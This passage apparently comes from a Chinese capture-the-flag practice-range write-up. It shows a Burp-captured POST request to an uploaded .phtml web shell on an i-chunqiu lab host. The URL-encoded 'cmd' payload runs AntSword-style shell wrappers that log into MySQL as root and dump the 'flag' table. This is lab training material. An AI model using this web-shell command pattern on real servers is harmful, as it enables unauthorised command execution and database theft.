 ![image-20230717151806672](%E9%9D%B6%E5%9C%BA.assets/image-20230717151806672.png)

该burp包

```
POST /uploadfiles/2023-07/20230717071245648.phtml HTTP/1.1
Host: eci-2ze7rjoli0bs0u5a7k9b.cloudeci1.ichunqiu.com:80
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Microsoft Windows NT 6.2.9200.0); rv:22.0) Gecko/20130405 Firefox/22.0
Cookie: PHPSESSID=p4p7l6ur1dauumro46d0bas5d2
Content-Type: application/x-www-form-urlencoded
Content-Length: 735
Connection: close

cmd=export%20PATH%3D%24PATH%3A%2Fusr%2Flocal%2Fsbin%3A%2Fusr%2Flocal%2Fbin%3A%2Fusr%2Fsbin%3A%2Fusr%2Fbin%3A%2Fsbin%3A%2Fbin%3BTAGS%3D%2288f2%22%221648%22%3BTAGE%3D%22f8a%22%22511%22%3Basenc()%7B%20cat%20%22%24%40%22%3B%20%7D%3Basexec()%20%7B%20APWD%3D%22root%22%3B%0A%20%20%20%20if%20%5B%20-z%20%24APWD%20%5D%3B%20then%20MYSQLPWD%3D%22%22%3B%20else%20MYSQLPWD%3D%22-p%24%7BAPWD%7D%22%3B%20fi%3B%0A%20%20%20%20mysql%20--xml%20--raw%20-B%20-hlocalhost%20-uroot%20%24MYSQLPWD%20-Dzzcms%20%3C%3C'EOF'%0ASELECT%20*%20FROM%20%60flag%60%20ORDER%20BY%201%20DESC%20LIMIT%200%2C20%3B%3B%0ASELECT%20ROW_COUNT()%20as%20%22Affected%20Rows%22%3B%0AEOF%0A%20%20%20%20%20%7D%3Becho%20-n%20%22%24TAGS%22%3Basexec%7Casenc%3Becho%20-n%20%22%24TAGE%22%3B
```
